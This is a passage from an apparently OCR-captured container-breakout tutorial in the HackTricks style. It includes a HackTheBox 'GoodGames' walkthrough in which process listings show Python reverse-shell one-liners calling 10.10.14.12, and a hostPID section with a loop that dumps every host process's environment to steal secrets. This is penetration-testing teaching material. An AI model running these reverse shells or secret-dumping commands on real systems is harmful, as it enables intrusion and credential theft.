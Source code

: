 ```
augustus@3a453ab39d3d:/backend$ /bin/sh
/bin/sh
$ 
```

```
# On the host

# get the real PID of the shell inside the container as the new https://app.gitbook.com/s/-L_2uGJGU7AVNRcqRvEi/~/changes/3847/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells user
augustus@GoodGames:~$ ps -auxf | grep /bin/sh
root      1496  0.0  0.0   4292   744 ?        S    09:30   0:00      \_ /bin/sh -c python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
root      1627  0.0  0.0   4292   756 ?        S    09:44   0:00      \_ /bin/sh -c python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
augustus  1659  0.0  0.0   4292   712 ?        S+   09:48   0:00                          \_ /bin/sh
augustus  1661  0.0  0.0   6116   648 pts/0    S+   09:48   0:00              \_ grep /bin/sh

# The process ID is 1659 in this case
# Grep for the sda for HTB{ through the process:
augustus@GoodGames:~$ grep -a 'HTB{' /proc/1659/root/sda 
HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}
```

### hostPID

If you can access the processes of the host you are going to be able to access a lot of sensitive information stored in those processes. Run test lab:

```
docker run --rm -it --pid=host ubuntu bash
```

For example, you will be able to list the processes using something like `ps auxn` and search for sensitive details in the commands.

Then, as you can access each process of the host in /proc/ you can just steal their env secrets running:

```
for e in `ls /proc/*/environ`; do echo; echo $e; xargs -0 -L1 -a $e; done
/proc/988058/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=argocd-server-69678b4f65-6mmql
USER=abrgocd
...
```

You can also access other processes file descriptors and read their open files:
